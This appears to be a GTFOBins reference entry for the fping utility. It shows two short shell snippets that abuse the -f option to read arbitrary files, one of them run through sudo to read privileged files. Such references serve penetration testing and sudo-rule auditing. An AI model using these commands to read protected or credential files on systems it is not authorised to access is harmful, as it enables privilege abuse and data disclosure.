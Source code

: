 # GTFOBin: fping

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
fping -f $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo fping -f $LFILE
```